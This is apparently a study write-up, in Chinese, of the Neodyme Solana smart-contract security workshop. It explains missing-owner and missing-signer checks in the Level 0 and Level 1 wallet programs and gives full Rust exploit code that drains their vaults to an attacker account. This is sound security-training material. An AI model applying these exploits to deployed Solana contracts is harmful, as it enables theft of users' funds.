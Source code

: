 ```yaml
---
title: Neodyme：Solana Security Workshop
tags:
    - web3
    - blockchain
    - smart contract
    - solana
    - rust
---
```


## Setup - Full

```bash
$ docker run --name breakpoint-workshop -p 2222:22 -p 8383:80 -e PASSWORD="password" neodymelabs/breakpoint-workshop:latest-code-prebuilt
# visit http://localhost:8383
```

### Compiling the Contracts and Running the Exploits

- PoC 框架代码位于 `pocs` 目录下
- VSCode 中 `Ctrl+Shift+B` 再选择 `level`
- 或通过命令行的方式

    ```bash
    # compile all contracts
    cargo build-bpf --workspace

    # run level0 exploit
    RUST_BACKTRACE=1 cargo run --bin level0
    ```

### Exploit Outline

初始持有 1 SOL，目标是获得更多的 SOL

## Level 0 - A First Vulnerability

- 查看 `WalletInstruction`，初步了解程序的功能

    ```rs
    pub enum WalletInstruction {
        /// Initialize a Personal Savings Wallet
        ///
        /// Passed accounts:
        /// (1) Wallet account
        /// (2) Vault accounts
        /// (3) Authority
        /// (4) Rent sysvar
        /// (5) System program
        Initialize,
        /// Deposit
        ///
        /// Passed accounts:
        /// (1) Wallet account
        /// (2) Vault accounts
        /// (3) Money Source
        Deposit { amount: u64 },
        /// Withdraw from Wallet
        ///
        /// Passed accounts:
        /// (1) Wallet account
        /// (2) Vault accounts
        /// (3) Authority
        /// (4) Target Wallet account
        Withdraw { amount: u64 },
    }
    ```

- 程序入口点函数 `processor::process_instruction` 反序列化 `instruction_data` 并调用指定函数

    ```rs
    pub fn process_instruction(
        program_id: &Pubkey,
        accounts: &[AccountInfo],
        mut instruction_data: &[u8],
    ) -> ProgramResult {
        match WalletInstruction::deserialize(&mut instruction_data)? {
            WalletInstruction::Initialize => initialize(program_id, accounts),
            WalletInstruction::Deposit { amount } => deposit(program_id, accounts, amount),
            WalletInstruction::Withdraw { amount } => withdraw(program_id, accounts, amount),
        }
    }
    ```

- 调用其它程序可通过 `invoke()` 或 `invoke_signed()`（当需要 PDA 作为 instruction 的 signer 时）
- `withdraw` 中 `wallet`、`vault` 等账户均由调用者提供，且未检查账户 `wallet` 的 `owner`，因而可以创建一个攻击者作为 `authority` 的 `wallet` 账户，从而调用 `withdraw` 获取 SOL

    ```rs
    fn withdraw(_program_id: &Pubkey, accounts: &[AccountInfo], amount: u64) -> ProgramResult {
        let account_info_iter = &mut accounts.iter();
        let wallet_info = next_account_info(account_info_iter)?;
        let vault_info = next_account_info(account_info_iter)?;
        let authority_info = next_account_info(account_info_iter)?;
        let destination_info = next_account_info(account_info_iter)?;
        let wallet = Wallet::deserialize(&mut &(*wallet_info.data).borrow_mut()[..])?;

        assert!(authority_info.is_signer);
        assert_eq!(wallet.authority, *authority_info.key);
        assert_eq!(wallet.vault, *vault_info.key);

        if amount > **vault_info.lamports.borrow_mut() {
            return Err(ProgramError::InsufficientFunds);
        }

        // Subtract will fail if overflow
        **vault_info.lamports.borrow_mut() -= amount;
        **destination_info.lamports.borrow_mut() += amount;

        Ok(())
    }
    ```

### Exploit

```rs
fn hack(env: &mut LocalEnvironment, challenge: &Challenge) {

    // Step 0: how much money do we want to steal?
    let amount = env.get_account(challenge.vault_address).unwrap().lamports;
    // `unwrap` returns a `panic` when it receives a `None`

    // Step 1: a fake wallet with the same vault
    let hacker_wallet = level0::Wallet {
        authority: challenge.hacker.pubkey(),
        vault: challenge.vault_address,
    };
    let fake_wallet = keypair(233);
    let mut hack_wallet_data: Vec<u8> = vec![];

    hacker_wallet.serialize(&mut hack_wallet_data).unwrap();
    
    env.create_account_with_data(&fake_wallet, hack_wallet_data);
    
    // Step 2: Use fake wallet to withdraw funds from the real vault to the attacker
    let instruction = Instruction {
        program_id: challenge.wallet_program,
        accounts: vec![
            AccountMeta::new(fake_wallet.pubkey(), false),
            AccountMeta::new(challenge.vault_address, false),
            AccountMeta::new(challenge.hacker.pubkey(), true),
            AccountMeta::new(challenge.hacker.pubkey(), false),
            AccountMeta::new_readonly(system_program::id(), false),
        ],
        // add `use borsh::BorshSerialize;` to use `try_to_vec()` method
        data: level0::WalletInstruction::Withdraw { amount }.try_to_vec().unwrap(),
    };
    env.execute_as_transaction(&[instruction], &[&challenge.hacker]).print_named("Hack: hacker withdraw");
}
```

### 参考资料

- [Calling Between Programs | Solana Docs](https://docs.solana.com/developing/programming-model/calling-between-programs)
- [Environment in poc_framework - Rust](https://docs.rs/poc-framework/0.1.2/poc_framework/trait.Environment.html)
- [Option & unwrap - Rust By Example](https://doc.rust-lang.org/rust-by-example/error/option_unwrap.html)
- [Pubkey::find_program_address - Rust](https://docs.rs/solana-program/latest/solana_program/pubkey/struct.Pubkey.html#method.find_program_address)

## Level 1 - Personal Vault

- 相比于 Level 0，`Wallet` 移除了 `vault`，并保持了除 `vault` 外其它功能的一致性

    ```rs
    pub struct Wallet {
        pub authority: Pubkey,
    }
    ```

- `withdraw` 中 `wallet_info`、`authority_info` 仍然由调用者提供，且只检查 `wallet` 的 `owner` 是否为对应程序以及 `wallet` 中存储的 `authority` 与提供的 `authority_info` 是否匹配，并没有检查 `authority_info` 是否为 signer

    ```rs
    fn withdraw(program_id: &Pubkey, accounts: &[AccountInfo], amount: u64) -> ProgramResult {
        msg!("withdraw {}", amount);
        let account_info_iter = &mut accounts.iter();
        let wallet_info = next_account_info(account_info_iter)?;
        let authority_info = next_account_info(account_info_iter)?;
        let destination_info = next_account_info(account_info_iter)?;
        let wallet = Wallet::deserialize(&mut &(*wallet_info.data).borrow_mut()[..])?;

        assert_eq!(wallet_info.owner, program_id);
        assert_eq!(wallet.authority, *authority_info.key);

        if amount > **wallet_info.lamports.borrow_mut() {
            return Err(ProgramError::InsufficientFunds);
        }

        **wallet_info.lamports.borrow_mut() -= amount;
        **destination_info.lamports.borrow_mut() += amount;

        wallet
            .serialize(&mut &mut (*wallet_info.data).borrow_mut()[..])
            .unwrap();

        Ok(())
    }
    ```

### Exploit

```rs
fn hack(env: &mut LocalEnvironment, challenge: &Challenge) {
    let amount = env.get_account(challenge.wallet_address).unwrap().lamports;

    let instruction = Instruction {
        program_id: challenge.wallet_program,
        accounts: vec![
            AccountMeta::new(challenge.wallet_address, false),
            AccountMeta::new(challenge.wallet_authority, false),
            AccountMeta::new(challenge.hacker.pubkey(), true),
            AccountMeta::new_readonly(system_program::id(), false),
        ],
        data: level1::WalletInstruction::Withdraw { amount }.try_to_vec().unwrap(),
    };
    env.execute_as_transaction(&[instruction], &[&challenge.hacker]).print_named("Hack: hacker withdraw");
}
```